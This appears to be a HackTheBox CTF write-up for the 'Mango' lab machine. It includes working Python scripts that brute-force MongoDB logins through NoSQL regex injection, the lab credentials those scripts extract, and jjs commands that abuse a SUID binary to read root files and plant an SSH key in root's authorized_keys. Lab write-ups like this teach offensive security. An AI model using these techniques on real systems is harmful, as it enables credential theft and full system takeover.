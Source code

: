 ```yaml
---
layout: article
title: HackTheBox - Mango
tags: HackTheBox write-up
date: 2019-01-01 08:00:00 +0100
---
```


![banner](/assets/images/mango.png)

<!--more-->

<h2>Mango</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.162   mango.htb`

<h3>Initial Scan</h3>
Next up we can try running our standard NMAP scan `nmap -sC -sV mango.htb` but we won't get very far with that, so we decide to do a stealth scan instead and treat the host as online using `nmap -sS -Pn mango.htb`. We get results back for 3 ports: 22 SSH open, 80 HTTP open and 443 HTTPS open.

![Initial NMAP scan](/assets/images/mango-initial-scan.png)

<h3>Web enumeration</h3>
Looking at the NMAP results, we most likely have a web application running on both HTTP 80 and HTTPS 443, so we fire up gobuster and take a manual look at the web app.  
While trying to run gobuster on `https://mango.htb` we get an interesting error message:

![gobuster error](/assets/images/mango-gobuster-results.png)

gobuster is telling us the SSL certificate for `https://mango.htb` is invalid, but it is **valid** for `https://staging-order.mango.htb`. Interesting, let's add `staging-order.mango.htb` to our `/etc/hosts` file and point it back at `10.10.10.162`. At first glance there's nothing interesting at `https://staging-order.mango.htb`, the web page resembles Google Search and we can visit `/analytics.php` which gives us a bunch of errors regarding a key for `*.codepen.io`. This looks to be a dead end.

However, the web server also serves content over HTTP on port 80, so let's give that a try: `http://staging-order.mango.htb`. We get a nice looking login page, when we try to login with some fake credentials not much happens. The page refreshes without any errors or warning messages.

We decide to run gobuster in the background on the virtual host to see if there's anything else going on, meanwhile we set up Hydra to try attack the webform.

![gobuster results](/assets/images/mango-gobuster-results-vh.png)

Looking at the gobuster results, `/vendor` grabs our attention, and after some quick googling we find out `/vendor` is used by [Composer](https://getcomposer.org/) and it often contains `/composer/installed.json`. Inspecting the `installed.json` file, we can quickly see references to [MongoDB](https://www.mongodb.com/) and [mongo-php-adapter](https://github.com/alcaeus/mongo-php-adapter). Interesting, let's test the `index.php` login page for NoSQL injection.

<h3>Enumerating MongoDB for usernames and passwords</h3>
A quick google for NoSQL injection will find us [PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body) GitHub repository. We need to modify the Post with JSON body script to fit our needs and enumerate both usernames and passwords.

extract-usernames.py
```python
import time
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username=""
password="cerbersec"
u="http://staging-order.mango.htb/index.php"
headers={'Content-Type' : 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','.','+','?','^','|','}']:
            payload= { 'username[$regex]' : "^" + username + c, 'password[$ne]' : password, "login" : "login" }
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (username+c))
                username += c
```

extract-passwords.py
```python
import time
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="cerbersec"

password=""
u="http://staging-order.mango.htb/index.php"
headers={'Content-Type' : 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','.','+','?','^','|','}']:
            payload= { 'username[$ne]' : username, 'password[$regex]' : "^" + password + c, "login" : "login" }
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

By modifying the `username` and `password` parameters as we gradually discover usernames and passwords we are eventually able to extract two usernames and two passwords.

Username | Password
--- | ---
admin | t9KcS3>!0B#2
mango | h3mXK8RhU~f{]f5H

<h3>Getting user via horizontal privesc</h3>
Now that we've got some credentials, it's time to find where to use them. When we log in on the web app we get redirected to `home.php` which is "Under Plantation", another dead end.
Trying SSH for **admin** results in a permission denied, but `ssh mango@mango.htb` seems to work with the password and we get our initial shell.

The first thing we can do when we get our initial shell, is checkout the `/home` directory. A quick `ls -la` tells us there are two users, **mango** and **admin**. No surprises here. Upon further inspection of their home directories we can see the `user.txt` flag is locked away in `/home/admin` and only readable by **admin**.

![admin directory](/assets/images/mango-home-admin.png)

Since we have credentials for **admin** let's try a simple horizontal privilage escalation with `su admin`. After entering the password for **admin** we can use `bash` to upgrade to a proper shell and grab the `user.txt` flag from `/home/admin`.

![user flag](/assets/images/mango-user-flag.png)

<h3>Getting root via jjs code execution</h3>
Time to move on to **root**. After some quick initial recon there's nothing that immediatly grabs our attention, so we should run [LinEnum](https://github.com/Cerbersec/scripts/blob/master/linux/LinEnum.sh). It tells us it found an interesting **SUID** file `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`.

![LinEnum result jjs](/assets/images/mango-linenum.png)

A quick google for **jjs privesc** tells us `jjs` can be exploited on [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/). We can try to get a shell or reverse shell, but since it returns errors we move on. Another interesting angle could be reading and writing files, so let's give that a go.

File Write
```java
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("DATA");
fw.close();' | jjs
```

File Read
```java
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

Using the **File Read** commands we can easily read `/root/root.txt` and grab the root flag.

![root flag](/assets/images/mango-root-flag.png)

<h3>Root Shell</h3>
To get a root shell we upload a SSH key to `authorized_keys`. We use `ssh-keygen -t rsa` to generate a new key pair and write the contents of `id_rsa.pub` to `/root/.ssh/authorized_keys` using the `fw.write();` function.

![jjs write ssh](/assets/images/mango-write-ssh.png)

Now we can use `ssh root@mango.htb -i id_rsa` to log in as root and get our root shell.

![root shell](/assets/images/mango-root-shell.png)